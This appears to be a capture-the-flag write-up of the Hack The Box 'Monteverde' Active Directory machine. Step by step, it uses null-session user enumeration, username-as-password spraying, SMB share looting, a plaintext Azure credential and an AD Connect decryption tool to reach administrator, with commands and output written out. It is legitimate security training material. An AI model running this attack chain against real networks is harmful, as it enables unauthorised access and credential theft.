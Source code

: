 # Monteverde

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.228.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 03:03 EDT
Nmap scan report for 10.129.228.111
Host is up (0.0092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
```

### Username List --> User Creds

With `enum4linux` and null credentials, we can enumerate the possible users and the domain name:

```
$ enum4linux -u '' -p '' -a 10.129.228.111
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan                                 
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest

guest
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
AAD_987d7f2f57d2
Administrator
krbtgt
```

We can get a list of usernames here. I tried ASREP-Roasting, but nothing came of it. We can also check if any user has their password as their username with `cracpmapexec`, which returns something interesting:

```
$ crackmapexec smb 10.129.228.111 -u users -p users 2> /dev/null
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
<TRUNCATED>
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

Seems that we have access to one user. When we enumerate the shares, we can see that we have access to the `users` and `azure_uploads` files. The latter has nothing in it, but the `users` file has loads of files:

```
$ smbclient -U "SABatchJobs" //10.129.228.111/users$
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020
```

We can see that there's an `azure.xml` file here. It contains a user credential:

```markup
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I also noticed that this uses Azure to do stuff, so let's keep that in mind for now. Anyways, we can login via `evil-winrm` with `mhope` and this password.&#x20;

<figure><img src="../../../.gitbook/assets/image (19) (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Azure Admins + Azure Connect

When we view our groups within the domain, we see that `mhope` is part of the Azure Admins group:

```
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   5/5/2023 12:16:08 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

Within the `C:\Program Files` directory, there are also some files pertaining to Azure:

```
*Evil-WinRM* PS C:\Program Files> dir
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

I googled on how to exploit these services. After some trial and error, I stumbled on this:

{% embed url="https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/" %}

Since Azure AD Connect was present, it means that there's a database of which the credentials are being stored. As Azure Admins, we probably have access to these passwords, which can be enumerated and decrypted.

{% embed url="https://github.com/VbScrub/AdSyncDecrypt/releases" %}

We just need to transfer the `AdDecrypt.exe` file along with `mcrypt.dll` to the machine. Then, following the PoC, we need to run this within `C:\Program Files\Microsoft Azure AD Sync\Bin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (39) (9).png" alt=""><figcaption></figcaption></figure>

Then, using this password, we can login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (68) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
